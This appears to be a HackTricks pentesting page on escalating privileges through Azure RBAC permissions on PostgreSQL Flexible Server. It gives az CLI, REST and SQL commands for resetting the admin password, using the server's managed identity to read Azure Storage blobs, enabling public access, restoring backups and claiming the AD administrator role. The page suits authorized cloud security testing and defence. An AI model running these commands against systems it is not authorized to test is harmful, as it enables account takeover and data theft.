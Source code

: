 # Az - PostgreSQL Privesc

{{#include ../../../banners/hacktricks-training.md}}

## PostgreSQL Privesc
For more information about SQL Database check:

{{#ref}}
../az-services/az-postgresql.md
{{#endref}}

### `Microsoft.DBforPostgreSQL/flexibleServers/read` && `Microsoft.DBforPostgreSQL/flexibleServers/write`

With this permission, you can create, update, or delete PostgreSQL Flexible Server instances on Azure. This includes provisioning new servers, modifying existing server configurations, decommissioning servers, or change the admin user's password.

```bash
az postgres flexible-server create \
    --name <ServerName> \
    --resource-group <ResourceGroupName> \
    --location <Location> \
    --admin-user <AdminUsername> \
    --admin-password <AdminPassword> \
    --sku-name <SkuName> \
    --storage-size <StorageSizeInGB> \
    --tier <PricingTier> \
    --version <PostgreSQLVersion>
```

For example, this permissions allow changing the PostgreSQL password, usefull of course in case that PostgreSQL authentication is enabled:

```bash
# Using the CLI
az postgres flexible-server update \
    --resource-group <resource_group_name> \
    --name <server_name> \
    --admin-password <password_to_update>

# Using the API
az rest --method patch \
  --url "https://management.azure.com/subscriptions/<subscription>/resourceGroups/<res-group>/providers/Microsoft.DBforPostgreSQL/flexibleServers/<server-name>?api-version=2024-11-01-preview" \
  --body '{"properties": {"administratorLoginPassword": "<new-password>"}}
```

Furthermore, with the permissions you can enable the assigned identity, and operate with the managed identity attached to the server. Here you can find all the extensions that Azure PostgreSQL flexible server supports [https://learn.microsoft.com/en-us/azure/cosmos-db/postgresql/reference-extensions](https://learn.microsoft.com/en-us/azure/cosmos-db/postgresql/reference-extensions). To be able to use these extensions some server parameters (azure.extensions) need to be changed. For example here with a managed identity that can access Azure Storage:

First we change the parameters and be sure the assigned identity is enabled:
```bash
az postgres flexible-server parameter set \
  --resource-group <YourResourceGroupName> \
  --server-name <YourServerName> \
  --name azure.extensions \
  --value "AZURE_STORAGE"

az postgres flexible-server identity update \
    --resource-group <YourResourceGroupName> \
    --server-name <YourServerName> \
    --system-assigned Enabled
```
```sql 
-- Make sure the extension is installed
CREATE EXTENSION IF NOT EXISTS azure_storage;

-- Login using storage keys
SELECT azure_storage.account_add('<storage-account>', '<storage-key>');
-- Login using managed identity
SELECT azure_storage.account_add(azure_storage.account_options_managed_identity('<storage-account>', 'blob'));

-- List configured accounts
SELECT * FROM azure_storage.account_list();

-- List all the files in the storage account
SELECT *
FROM azure_storage.blob_list(
    '<storage-account>',
    '<container>'
);

-- Access one file inside the storage account
SELECT *
FROM azure_storage.blob_get(
    '<storage-account>',
    '<container>',
    'message.txt',
    decoder := 'text'
) AS t(content text)
LIMIT 1;
```

Additionally it is necesary to have the public access enabled if you want to access from a non private endpoint, to enable it:

```bash
az postgres flexible-server update --resource-group <resource_group_name> --server-name <server_name> --public-access Enabled
```

### `Microsoft.DBforPostgreSQL/flexibleServers/read`, `Microsoft.DBforPostgreSQL/flexibleServers/write`, `Microsoft.DBforPostgreSQL/flexibleServers/backups/read`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`

With this permissions you can restore a server from a backup with:

```bash
az postgres flexible-server restore \
  --resource-group <RESOURCE_GROUP> \
  --name <NEW_SERVER_NAME> \
  --source-server <SOURCE_SERVER_NAME> \
  --restore-time "<ISO8601_TIMESTAMP>" \
  --yes

```

### `Microsoft.DBforPostgreSQL/flexibleServers/read`, `Microsoft.DBforPostgreSQL/flexibleServers/write`, `Microsoft.ManagedIdentity/userAssignedIdentities/assign/action`, `Microsoft.DBforPostgreSQL/flexibleServers/administrators/write` && `Microsoft.DBforPostgreSQL/flexibleServers/administrators/read`

With this permission, you can configure Azure Active Directory (AD) administrators for a PostgreSQL Flexible Server. This can be exploited by setting oneself or another account as the AD administrator, granting full administrative control over the PostgreSQL server. Updating existing principal is not supported yet so if there is one created you must delete it first.

It's important that the flexible-server has a user assigned managed identities to use.

```bash
az postgres flexible-server ad-admin create \
    --resource-group <ResourceGroupName> \
    --server-name <ServerName> \
    --display-name <ADAdminDisplayName> \
    --identity <IdentityNameOrID> \
    --object-id <ObjectID>
```

{{#include ../../../banners/hacktricks-training.md}}
